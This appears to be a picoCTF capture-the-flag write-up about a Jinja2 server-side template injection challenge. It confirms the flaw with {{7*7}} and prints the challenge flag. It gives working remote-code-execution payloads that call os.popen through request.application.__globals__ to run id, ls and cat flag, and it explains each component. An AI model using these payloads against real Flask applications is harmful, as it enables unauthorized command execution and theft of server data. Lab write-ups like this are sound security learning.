 # SSTI1
Author: Venax


## 📂 Category
- Web Exploitation  
- Difficulty: Easy  

---

## 🧩 Challenge Description
The challenge provided a simple web form that reflected user input. 

---

## 🔍 Initial Observations
- Entering expressions like `{{7*7}}` returned `49`, indicating possible Server-Side Template Injection (SSTI).
---

## 🧪 Exploitation Steps

1. Entered: ```{{7*7}}``` → Response was `49` → Confirmed SSTI.
2. Tried: ```{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}```
3. Got a system-level response confirming Remote Code Execution (RCE).
4. Ran: ```{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}```
5. Server files listed.
6. Finally: ```{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}```
7. Revealed the flag.

---

## 🏁 Flag

picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_424a1494}

---

## 🧠 What I Learned

**What is a Template Engine?**

A template engine helps generate dynamic web pages. Instead of hardcoding values, you write placeholders like:

```<p>Hello, {{ name }}!</p>```

The server fills in the actual data.

In this challenge, the web page uses Jinja2, the default template engine for Python's Flask framework, to make the page dynamic. Different frameworks use different engines and syntax. For example, if the site was built with Django, an expression like ```{{7}}``` might be enough to test for evaluation.

**What is SSTI?**

Server-Side Template Injection occurs when user input is unsafely inserted into a template. If an input like ```{{7*7}}``` returns 49 (7 times 7 = 49), the server is evaluating user input as code.

**Note:** 7\*7 is just a common convention—it could be any expression.

If unpatched, SSTI can lead to:
- Data leaks
- Remote code execution (RCE)
- Full server compromise

**Code explanation**

```{{ request.application.__globals__.__builtins__.__import__('os').popen('id').read() }}```

- ```request```	: A Flask object representing the current HTTP request.
- ```request.application``` : The Flask application instance being used.
- ```__globals__```: Accesses the global variables of the template’s underlying Python environment.
- ```__builtins__``` : Exposes all built-in Python functions and objects (like open, print, __import__, etc.).
- ```__import__('os')``` : Dynamically imports the os module — a powerful module for interacting with the system.
- ```.popen('id')``` : Runs the shell command id, which returns the current user and group info. Can replace with other commands (eg: ls, cat, etc)
- ```.read()``` : Reads and returns the output of that command.

---

## 📚 References

https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/

